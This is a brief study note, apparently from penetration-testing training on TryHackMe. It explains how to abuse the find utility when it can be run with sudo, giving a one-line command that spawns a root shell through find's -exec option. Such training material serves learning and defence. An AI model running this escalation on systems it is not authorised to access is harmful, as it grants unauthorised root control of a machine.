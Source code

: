 # Exploiting “find”

If `find` can be run with `sudo`, then try `sudo find . -exec /bin/sh \; -quit`.

* [TryHackMe: Jr. Penetration Tester](https://tryhackme.com/path/outline/jrpenetrationtester)
